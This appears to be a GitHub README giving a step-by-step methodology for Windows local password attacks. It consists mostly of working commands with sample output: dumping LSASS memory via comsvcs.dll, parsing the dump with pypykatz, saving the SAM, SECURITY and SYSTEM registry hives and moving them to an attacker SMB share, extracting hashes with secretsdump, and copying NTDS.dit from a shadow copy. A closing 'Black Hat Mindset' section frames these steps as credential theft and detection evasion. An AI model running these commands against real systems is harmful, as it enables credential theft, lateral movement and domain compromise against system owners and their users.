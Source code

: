 # Basic Methodology - Windows Local Password Attack

This README explores techniques for local password attacks on Windows systems, focusing on enumerating processes, dumping memory, extracting credentials from registry hives, and accessing the NTDS.dit file.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Listing Running Processes](#listing-running-processes)
- [Searching for Passwords in Files](#searching-for-passwords-in-files)
- [Enumerating the LSASS Process](#enumerating-the-lsass-process)
- [Dumping LSASS Memory](#dumping-lsass-memory)
- [Extracting Credentials from LSASS Dump](#extracting-credentials-from-lsass-dump)
- [Saving Registry Hives](#saving-registry-hives)
- [Transferring Files to a Share](#transferring-files-to-a-share)
- [Dumping SAM Hashes with Secretsdump](#dumping-sam-hashes-with-secretsdump)
- [Creating a Volume Shadow Copy](#creating-a-volume-shadow-copy)
- [Copying NTDS.dit from Shadow Copy](#copying-ntdsdit-from-shadow-copy)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Local password attacks on Windows systems involve extracting credentials and password hashes from memory, registry hives, and Active Directory databases (NTDS.dit). This guide covers enumerating processes, dumping LSASS memory, saving registry hives, and accessing NTDS.dit using volume shadow copies, enabling attackers to steal credentials for privilege escalation or lateral movement.

## Setup and Prerequisites

- **Environment**: Windows host with local access; some commands (e.g., `secretsdump.py`) run on a Linux attack box.
- **Tools**: Install Python 3 (for `secretsdump.py` and `pypykatz`), download pypykatz (e.g., `pip install pypykatz`), and `secretsdump.py` (from Impacket, e.g., `pip install impacket`).
- **Permissions**: Administrative privileges are required for most commands (e.g., LSASS dumping, registry access, VSS).
- **Files**: Ensure output paths (e.g., `C:\lsass.dmp`, `C:\sam.save`) are writable; set up an SMB share for file transfers.
- **IP Address**: Identify the attack host IP (e.g., `<ip>`) for file transfers.

## Listing Running Processes

Enumerate running processes to identify targets like LSASS.

```powershell
tasklist /svc
```

Example Output:
```
lsass.exe           672    LsaSs
svchost.exe         844    RpcSs
```

## Searching for Passwords in Files

Search for plaintext passwords in various file types.

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

Example Output:
```
config.xml:5: password=admin123
```

## Enumerating the LSASS Process

Identify the LSASS process for memory dumping.

```powershell
Get-Process lsass
```

Example Output:
```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  ProcessName
-------  ------    -----      -----     ------     --  -----------
    543      12      2048       4096         15    672  lsass
```

## Dumping LSASS Memory

Create a memory dump of the LSASS process.

```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Note: Replace `672` with the actual LSASS PID from `Get-Process` or `tasklist`.

## Extracting Credentials from LSASS Dump

Parse the LSASS dump to extract credentials.

```bash
pypykatz lsa minidump /path/to/lsassdumpfile
```

Example:
```bash
pypykatz lsa minidump /root/lsass.dmp
```

Output: Extracts hashes like `Administrator:31d6cfe0d16ae931b73c59d7e0c089c0`.

## Saving Registry Hives

Save registry hives for offline credential extraction.

```powershell
reg.exe save hklm\sam C:\sam.save
```

Additional Hives:
```powershell
reg.exe save hklm\security C:\security.save
reg.exe save hklm\system C:\system.save
```

## Transferring Files to a Share

Move saved files to an attack host share.

```powershell
move sam.save \\<ip>\NameofFileShare
```

Example:
```powershell
move sam.save \\192.168.1.200\CompData
```

## Dumping SAM Hashes with Secretsdump

Extract password hashes from registry hives.

```bash
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Example Output:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Creating a Volume Shadow Copy

Create a shadow copy to safely access NTDS.dit.

```powershell
vssadmin CREATE SHADOW /For=C:
```

Example Output:
```
Successfully created shadow copy for 'C:\'
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

## Copying NTDS.dit from Shadow Copy

Extract NTDS.dit from the shadow copy.

```powershell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Note: Replace `HarddiskVolumeShadowCopy2` with the actual shadow copy volume name from `vssadmin`.

## Black Hat Mindset

- **Extract Credentials**: Dump LSASS memory and registry hives to steal password hashes for cracking or pass-the-hash attacks.
- **Access Domain Data**: Use shadow copies to safely extract NTDS.dit and harvest domain credentials.
- **Transfer Files**: Move dumps to an attack host for offline analysis, minimizing detection.
- **Stay Silent**: Use native tools (`rundll32`, `reg.exe`) to blend in with normal system activity.

## Resources

- [Pypykatz GitHub](https://github.com/skelsec/pypykatz)
- [Impacket GitHub](https://github.com/SecureAuthCorp/impacket)
- [VSSAdmin Documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/vssadmin)
- [Windows Command Line](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands)

